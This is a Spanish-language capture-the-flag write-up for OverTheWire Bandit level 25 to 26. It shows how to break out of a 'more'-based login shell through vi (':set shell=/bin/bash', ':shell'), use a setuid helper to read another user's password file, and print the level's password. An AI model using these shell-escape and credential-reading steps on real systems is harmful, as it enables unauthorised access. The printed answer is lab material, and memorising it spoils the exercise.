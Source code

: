 ## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

> NOTE: if you’re a Windows user and typically use Powershell to `ssh` into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.

## Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

# Solution
Si nos intentamos conectar con la key sale lo siguiente:
```sh
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220
.
.
.
  Enjoy your stay!

  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
```
Para ver que ocurre podemos ver el archivo /etc/passwd para ver que ejecuta bandit26 al iniciar sesion:
```sh
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
andit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ cat /home/bandit26/text.txt
cat: /home/bandit26/text.txt: Permission denied
```
Ejecuta el archivo **showtext** que es un script bash que ejecuta el comando **more** en el archivo text.txt que no tenemos acceso. 

Al estar con el comando **more** podemos usar para entrar en las opciones antes de que se cierre la conexión. Para eso tenemos que NO visualizar todo el contenido. Como? Reduciendo el tamaño de la ventana:
```sh
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
:set shell=/bin/bash     
```
En modo **more** con la tecla **V** podemos entrar en modo visual y con dos puntos podemos inyectar comandos. Por ejemplo ***set*** para definir una variable que en este caso será una bash.
Ejecutamos la variable y :
```sh
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
:shell
bandit26@bandit:~$ 
```
Ya estamos en una bash:
```sh
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ cat text.txt 
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
```
Podemos ver que el texto era el banner.
Ahora Tenemos un binario **bandit27-do**. Ya hemos trabajado con este binario. Por lo tanto Podemos conseguir acceso a bandit27.

```sh
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

# Password level 27:

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB

## Next level:
[[Level 26 -> 27]]